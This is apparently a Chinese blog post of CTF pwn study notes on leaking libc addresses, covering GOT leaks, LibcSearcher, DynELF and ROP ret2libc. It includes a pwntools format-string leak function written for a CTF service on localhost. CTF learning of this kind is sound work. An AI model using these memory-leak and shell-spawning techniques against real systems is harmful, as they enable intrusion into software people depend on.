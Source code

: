 ---
title: "libc泄漏"
date: 2021-11-10T12:35:39+08:00
draft: false
tags: ['ctf', 'pwn']
categories: ['learning']
---

libc泄漏在pwn题里很常见，在这里整理一下常见的泄漏libc的方法。
ROP中的ret2libc需要知道libc的版本和偏移，需要泄漏内存中函数的地址。
fmtstr中有时需要知道libc的偏移后用system函数覆盖某些函数的got。
堆利用中也会有用system覆盖函数got的利用方式。
* 常见泄漏方法
** 未知libc版本时
常用的泄漏方法有泄漏某个函数的got内容，根据泄漏的地址用LibcSearcher搜索libc。函数的got地址可以用ELF在目标二进制文件中搜到。
在可以泄漏任意地址内容的时候可以用DynELF。
* 格式化字符串漏洞
** NJCTF2017 [[https://www.bookstack.cn/read/CTF-All-In-One/doc-6.1.2_pwn_njctf2017_pingme.md][pingme]]
这题是blind fmt，只提供了ip和端口。在从内存dump下代码后搜索到printf@got，泄漏出printf地址。用泄漏的printf地址搜索libc-database得到libc版本后在libc中搜到system，用system和printf的相对地址转化得到system在进程中的地址。然后利用fmtstring用system覆盖printf@got。
如果libc-database搜不到，可以用DynELF来泄漏system地址。

#+begin_src python
def leak(addr):
    p = remote('127.0.0.1', '10001')
    p.recvline()
    payload = "%9$s.AAA" + p32(addr)
    p.sendline(payload)
    data = p.recvuntil(".AAA")[:-4] + "\x00"
    log.info("leaking: 0x%x --> %s" % (addr, data.encode('hex')))
    p.close()
    return data
data = DynELF(leak, 0x08048490)     # Entry point address
system_addr = data.lookup('system', 'libc')
printf_addr = data.lookup('printf', 'libc')
log.info("system address: 0x%x" % system_addr)
log.info("printf address: 0x%x" % printf_addr)
#+end_src

DynELF 不要求我们拿到 libc.so，所以如果我们查询不到 libc.so 的版本信息，该模块就能发挥它最大的作用  。
* ROP
** geekgame-0th [[https://github.com/PKU-GeekGame/geekgame-0th/blob/main/writeups/wp-xmcp/wp-xmcp.md][庄子的回文]]
这题需要利用ropchain打印出任意函数的got，计算出libc的偏移后回到函数执行入口，再次执行rop，用ropchain构造system("/bin/sh")就可以得到shell。第一次打印出函数got的ropchain是用目标elf文件中指令构造的，拿到libcbase后才能用libc中的指令构造第二次rop。这题要用两次rop是因为原elf文件不能直接构造出system("/bin/sh").
* main arena
** 字符串非'\x00'结尾
*** HITBCTF2018 [[https://www.bookstack.cn/read/CTF-All-In-One/doc-6.1.2_pwn_njctf2017_pingme.md][gundam]]

